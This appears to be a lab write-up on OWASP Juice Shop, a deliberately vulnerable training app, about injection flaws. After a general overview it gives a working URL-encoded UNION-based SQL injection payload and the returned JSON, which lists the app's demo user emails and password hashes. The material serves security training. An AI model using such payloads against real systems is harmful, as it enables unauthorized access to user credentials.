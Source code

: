 # A3-2021 - Injection

## Overview
[Injection](https://owasp.org/Top10/A03_2021-Injection/) vulnerabilities occur when untrusted data is sent to an interpreter as part of a command or query. This happens when user-supplied data is not properly validated, filtered, or sanitized before being processed by the application. Injection flaws are particularly dangerous because they can allow attackers to execute unintended commands or access data without proper authorization.

The most common types of injection attacks include SQL injection, NoSQL injection, OS command injection, and LDAP injection. These vulnerabilities arise when applications construct queries or commands by concatenating user input directly into the query string, rather than using parameterized queries or prepared statements.

Injection attacks can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, denial of access, and sometimes complete host takeover. The business impact depends on the needs of the application and data protection requirements, but injection vulnerabilities are consistently found in applications and can be devastating when successfully exploited.

## Reconaisence

## Exploit

After much trial and error, settled on this url-encoded injection.

`'))%20union%20all%20select%201,email,username,4,password,6,7,8,9%20from%20Users%20--%20`. This returned items from the shop, but it also returned at the end of the waht looked like users.

```json
// snippet
{"id":46,"name":"DSOMM & Juice Shop User Day Ticket","description":"You are going to the OWASP Global AppSec San Francisco 2024? <a href=\"https://www.eventbrite.com/e/owasp-global-appsec-san-francisco-2024-tickets-723699172707\" target=\"_blank\">Get a ticket*</a> for this amazing side event as well! Check the juice-packed agenda <a href=\"https://owasp.org/www-project-juice-shop/#div-userday2024\" target=\"_blank\">here</a> for all the details!<br /><br />*=scroll down to <strong>Elevate: DSOMM and Juice Shop User Day (Sept. 25)</strong> after clicking <em>Get Tickets</em> on Eventbrite. Ticket price set to only covers fees for room, AV, and catering throughout the day.","price":55.2,"deluxePrice":55.2,"image":"user_day_ticket.png","createdAt":"2025-06-09 11:30:05.779 +00:00","updatedAt":"2025-06-09 11:30:05.779 +00:00","deletedAt":"2025-06-09 11:30:06.552 +00:00"},{"id":1,"name":"admin@juice-sh.op","description":"","price":4,"deluxePrice":"0192023a7bbd73250516f069df18b500","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},{"id":1,"name":"jim@juice-sh.op","description":"","price":4,"deluxePrice":"e541ca7ecf72b8d1286474fc613e5e45","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},{"id":1,"name":"bender@juice-sh.op","description":"","price":4,"deluxePrice":"0c36e517e3fa95aabf1bbffc6744a4ef","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},{"id":1,"name":"bjoern.kimminich@gmail.com","description":"bkimminich","price":4,"deluxePrice":"6edd9d726cbdc873c539e41ae8757b8c","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},```

SQL injection to return user information was possible. This exploit on it own can be devastating, but paired with cryptographic failures, this exploit chain becomes much worse.

